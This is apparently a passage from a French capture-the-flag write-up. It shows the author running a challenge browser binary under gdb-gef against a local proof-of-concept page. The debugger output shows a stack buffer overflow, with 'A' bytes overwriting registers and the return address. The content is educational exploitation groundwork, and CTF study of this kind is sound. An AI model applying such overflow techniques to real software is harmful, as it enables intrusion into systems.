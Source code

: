 Puis charger le navigateur dans `gdb-gef` pour voir ce qu'il se passe:

```
$ gdb-gef ../fcsc_browser 
Reading symbols from ../fcsc_browser...
(No debugging symbols found in ../fcsc_browser)
GEF for linux ready, type `gef' to start, `gef config' to configure
89 commands loaded for GDB 9.2 using Python engine 3.8
[*] 3 commands could not be loaded, run `gef missing` to know why.
gef➤  r http://localhost:8080/poc.html
```

Eeeet surprise:

```
$rax   : 0x00007fffffffce70  →  0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rbx   : 0x4141414141414141 ("AAAAAAAA"?)
$rcx   : 0x0000000000612026  →  0x0007000700050005
$rdx   : 0xc6              
$rsp   : 0x00007fffffffce48  →  0x4141414141414141 ("AAAAAAAA"?)
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00007fffffffcdb0  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rip   : 0x0000000000407f82  →  <addBrowser(std::__cxx11::basic_string<char,+0> ret 
$r8    : 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x00007fffffffce00  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r10   : 0xffffffffffffff0c
$r11   : 0x00007fffffffd187  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$r12   : 0x4141414141414141 ("AAAAAAAA"?)
$r13   : 0x00007fffffffd110  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r14   : 0x00007fffffffd090  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r15   : 0x00000000009bc9b0  →  0x0000000040000002
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffce48│+0x0000: 0x4141414141414141	 ← $rsp
0x00007fffffffce50│+0x0008: 0x4141414141414141
0x00007fffffffce58│+0x0010: 0x4141414141414141
0x00007fffffffce60│+0x0018: 0x4141414141414141
0x00007fffffffce68│+0x0020: 0x4141414141414141
0x00007fffffffce70│+0x0028: 0x00000000007a2e80  →  "FCSC Browser - AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $rax
0x00007fffffffce78│+0x0030: 0x00000000000000c6
0x00007fffffffce80│+0x0038: 0x00000000000000c6
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x407f7e <addBrowser(std::__cxx11::basic_string<char,+0> pop    rbx
     0x407f7f <addBrowser(std::__cxx11::basic_string<char,+0> pop    r12
     0x407f81 <addBrowser(std::__cxx11::basic_string<char,+0> pop    rbp
 →   0x407f82 <addBrowser(std::__cxx11::basic_string<char,+0> ret    
[!] Cannot disassemble from $PC
```
